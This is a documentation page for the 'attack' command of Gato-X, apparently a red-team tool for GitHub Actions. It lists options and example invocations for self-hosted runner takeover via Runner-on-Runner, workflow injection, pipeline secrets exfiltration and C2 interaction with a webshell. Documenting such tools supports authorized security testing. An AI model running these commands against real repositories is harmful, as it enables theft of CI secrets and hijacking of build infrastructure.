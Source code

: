 # Attack Command

The attack command provides capabilities to exploit vulnerabilities in GitHub Actions workflows. This includes self-hosted runner takeover using the Runner-on-Runner (RoR) technique, workflow injection attacks, and secrets exfiltration.

> **Warning**: These features should only be used with proper authorization and for ethical security research purposes.

## Basic Usage

```bash
gato-x attack [options]
# or
gato-x a [options]
```

## Options

### General Options

| Option | Description |
|--------|-------------|
| `--target`, `-t` | Repository to target in attack (ORG/REPO format) |
| `--author-name`, `-a` | Name of the author for git commits |
| `--author-email`, `-e` | Email for git commits |
| `--branch`, `-b` | Target branch for the attack |
| `--message`, `-m` | Commit message to use |
| `--timeout`, `-to` | Timeout in seconds to wait for workflow execution |

### Attack Mode Options

| Option | Description |
|--------|-------------|
| `--workflow`, `-w` | Attack by pushing a workflow to a feature branch |
| `--runner-on-runner`, `-pr` | Attack with Runner-on-Runner via a Fork Pull Request |
| `--secrets`, `-sc` | Attack to exfiltrate pipeline secrets |
| `--interact` | Connect to a C2 repository and interact with connected runners |
| `--payload-only` | Generate payloads for manually deploying runner on runner |

### Workflow Attack Options

| Option | Description |
|--------|-------------|
| `--command`, `-c` | Command to execute as part of payload |
| `--name`, `-n` | Name of the workflow |
| `--file-name`, `-fn` | Name of yaml file without extension |
| `--custom-file`, `-f` | Path to a yaml workflow to upload |
| `--delete-run`, `-d` | Delete the resulting workflow run |

### Runner-on-Runner Options

| Option | Description |
|--------|-------------|
| `--source-branch`, `-sb` | Name of the PR source branch |
| `--pr-title`, `-pt` | Name of the PR that will be created |
| `--target-os` | Operating system for Runner-on-Runner attack (windows, linux, osx) |
| `--target-arch` | Architecture for Runner-on-Runner attack (arm, arm64, x64) |
| `--labels` | List of labels to request for self-hosted runner attacks |
| `--keep-alive` | Keep the workflow running after deploying a RoR |
| `--c2-repo` | Name of an existing Gato-X C2 repository in Owner/Repo format |

## Examples

### Perform Self-Hosted Runner Takeover

```bash
gato-x a --runner-on-runner --target MyOrg/MyRepo --target-os linux --target-arch x64
```

### Push a Workflow to Execute a Command

```bash
gato-x a --workflow --target MyOrg/MyRepo --command "whoami"
```

### Exfiltrate Secrets

```bash
gato-x a --secrets --target MyOrg/MyRepo
```

### Generate Runner-on-Runner Payload Only

```bash
gato-x a --payload-only --target-os linux --target-arch x64
```

### Interact with an Existing C2 Repository

```bash
gato-x a --interact --c2-repo MyOrg/C2Repo
```

## Runner-on-Runner Attack Process

When executing a Runner-on-Runner attack, Gato-X performs the following steps:

1. Prepare a C2 repository for command and control
2. Prepare payload Gist files
3. Deploy the RoR implantation payload
4. Confirm successful callback and runner installation
5. Provide an interactive webshell upon successful connection

## Security Considerations

- Always ensure you have proper authorization before using attack features
- Use these features only for ethical security research
- Follow responsible disclosure practices when finding vulnerabilities
